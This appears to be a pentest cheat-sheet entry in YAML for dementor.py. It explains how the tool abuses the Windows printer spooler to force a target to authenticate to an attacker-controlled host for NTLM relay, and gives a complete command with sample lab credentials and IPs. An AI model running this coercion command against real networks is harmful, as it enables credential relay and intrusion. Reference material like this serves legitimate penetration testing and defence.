 ```yaml
---
description: |
  dementor.py interacts with the printer spooler on a host to trigger an authentication from the target IP to an attacker controlled host (usually an SMB or HTTP server). This captured authentication can then be relayed to authenticated to other hosts. See more in ntlmrelayx.py.

  Command Reference:

  	Target IP: 10.10.10.1

  	Attacker IP: 10.10.10.2

  	Domain: test.local

  	Username: john

  	Password: password123

items:
  Password:
    - code: |
        python3 dementor.py -u john -p password123 -d test.local 10.10.10.2 10.10.10.1
  Username:
    - code: |
        empty
filters:
  RPC:
    - code: |
        empty
---
```

